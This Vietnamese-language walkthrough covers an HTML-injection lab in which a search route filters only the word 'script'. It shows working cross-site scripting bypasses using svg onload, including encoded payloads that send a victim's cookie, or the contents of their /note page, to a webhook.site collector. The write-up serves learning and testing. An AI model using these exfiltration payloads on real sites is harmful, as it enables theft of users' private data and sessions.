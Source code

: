 # HTML Injection 4

# Thử thách về lỗi bảo mật HTML Injection

# Mục tiêu: Đọc note của nạn nhân
# Code validation
```javascript
router.get('/search', function (req, res, next) {
    // Don't allow script keyword
    if (req.query.q.search(/script/i) > 0) {
        res.send('Hack detected');
        return;
    }
    html = 'Your search - <b>' + req.query.q + '</b> - did not match any notes.<br><br>'
    res.send(html);
});
```
# Phân tích
-  Không cho phép từ khóa `script` trong truy vấn tìm kiếm
# bypass
-  Tuy nhiên, ta có thể sử dụng các tag HTML khác để chèn mã JavaScript mà không cần từ khóa `script`.
-  Ví dụ: sử dụng các thẻ HTML như `svg`, `img`, hoặc các thuộc tính sự kiện như `onerror`, `onclick`, `onload` để thực thi mã JavaScript khi sự kiện xảy ra.
-  Ví dụ: `<svg onload=alert(1)>` sẽ hiển thị một thông báo cảnh báo khi SVG được tải.
# Bước thực hiện
-  Truy cập vào đường dẫn `/search?q=<svg onload=alert(1)>`
-  Khi đó, mã JavaScript sẽ được thực thi và hiển thị thông báo cảnh báo với giá trị `1`.
# Kết quả
-  Bạn sẽ thấy một thông báo cảnh báo với giá trị `1`, chứng tỏ rằng bạn đã thành công trong việc thực hiện HTML Injection.
# Lấy cookie
-  Để lấy cookie của nạn nhân, bạn có thể sử dụng mã JavaScript như sau:
```html
<svg onload="fetch('http://your-server.com/steal?cookie='+document.cookie)">
```
-  playload encode:
```url
https://url/search?q=%3Csvg+onload%3D%22fetch%28%27https%3A%2F%2Fwebhook.site%2F3a6cea0c-0c4b-4528-a54e-421553192587%2Fsteal%3Fcookie%3D%27%2Bdocument.cookie%29%22%3E
```
-  Khi nạn nhân truy cập vào trang web và mã JavaScript này được thực thi, nó sẽ gửi cookie của nạn nhân đến máy chủ của bạn thông qua một yêu cầu `fetch`.
-  Bạn cần thay thế `http://your-server.com/steal` bằng URL của máy chủ mà bạn đã thiết lập để nhận cookie.
# lỗi không lấy được cookie
```
// start session
app.use(
  session({
    resave: false,
    saveUninitialized: true,
    secret: process.env.SECRET_KEY,
    cookie: {
      maxAge: 86400000,
      httpOnly: true
    },
  })
);
```
-  Đoạn mã trên đã thiết lập cookie với thuộc tính `httpOnly`, điều này ngăn chặn việc truy cập cookie từ JavaScript. Do đó, mã JavaScript không thể lấy cookie của nạn nhân.
-  Để giải quyết vấn đề này, bạn có thể sử dụng một phương pháp khác để lấy thông tin từ trang web, chẳng hạn như gửi yêu cầu đến một endpoint khác mà không cần sử dụng cookie.
-  Ví dụ, bạn có thể sử dụng mã JavaScript như sau để lấy nội dung của một phần tử cụ thể trên trang web:
```html
<svg onload="fetch('/note').then(r=>r.text()).then(d=>fetch('https://webhook.site/3a6cea0c-0c4b-4528-a54e-421553192587?note='+encodeURIComponent(d)))">
```
-  playload encode:
```url
https://URL/search?q=%3Csvg+onload%3D%22fetch%28%27%2Fnote%27%29.then%28r%3D%3Er.text%28%29%29.then%28d%3D%3Efetch%28%27https%3A%2F%2Fwebhook.site%2F3a6cea0c-0c4b-4528-a54e-421553192587%3Fnote%3D%27%2BencodeURIComponent%28d%29%29%29%22%3E
```
-  Payload này sẽ tự động lấy nội dung từ endpoint `/note` và gửi dữ liệu đó ra ngoài (đến webhook) khi nạn nhân truy cập vào trang có payload này.
Nó không cần truy cập cookie, nên vẫn hoạt động ngay cả khi cookie bị đặt thuộc tính `HttpOnly`.
-  Bạn cần thay thế `http://your-server.com/steal` bằng URL của máy chủ mà bạn đã thiết lập để nhận nội dung.
# Kết quả
-  Nội dung của phần tử có id `note` đã được gửi đến `webhook`


